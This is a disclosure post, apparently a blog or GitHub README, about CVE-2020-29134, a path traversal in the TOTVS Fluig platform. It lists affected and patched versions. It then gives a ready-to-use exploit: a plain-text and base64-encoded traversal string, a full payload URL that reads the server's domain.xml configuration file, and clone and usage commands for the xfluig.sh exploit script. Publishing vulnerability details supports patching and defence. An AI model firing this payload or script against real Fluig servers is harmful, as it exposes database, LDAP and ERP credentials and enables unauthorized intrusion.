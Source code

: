 ```yaml
---
layout: post
title:  "CVE-2020–29134 Totvs Fluig Platform"
date:   2021-03-04 15:01:00
cover: /blog/assets/images/posts/fluig.png
categories: CVE
---
```


#### Totvs Fluig Platform
     
Fluig is the productivity and collaboration platform that integrates with the ERP system,
and your company’s other systems to revolutionize the way you and your team work.
 
#### CVE-2020-29134
     
TOTVS Fluig Plataform allows directory traversal via parameter encoded in base64
When exploited, this vulnerability allows the reading of sensitive XML files,
which contain data to access the database and, in some cases, LDAP connections and ERP integrations.
     
#### Versions affecteds 

<== Fluig Lake 1.7.0
<== Fluig 1.6.5
<== Fluig 1.6.4

#### Patched versions

Fluig Lake 1.7.0-210303 (Patched)
Fluig 1.6.5-210308 (Patched)
Fluig 1.6.4-210308 (Patched)

# Building Payload

![alt text](https://raw.githubusercontent.com/lucxssouza/CVE-2020-29134/main/Payload-Parameter.png?raw=true)

#### Attack Vector

http://fluig.host.com/volume/stream/Rmx1aWc=/

#### Path traversal plain text

?t=1&vol=Default&id=1&ver=1000&file=../../../../../../../../../../../../../fluig/appserver/domain/configuration/domain.xml

#### Path traversal encoded base64
     P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=
     
#### Payload 

http://HOST.FLUIG.COM/volume/stream/Rmx1aWc=/P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=

#### Exploit-DB reference
https://www.exploit-db.com/exploits/49622

     
#### Clone Repository

git clone https://github.com/lucxssouza/CVE-2020-29134.git
cd CVE-2020-29134
chmod +x xfluig.sh

#### Usage

Ex1: ./xfluig.sh http://fluig.host.com REQUESTS_WFUZZ (number of requests generated by wfuzz)

Ex2: ./xfluig.sh http://fluig.host.com:PORT
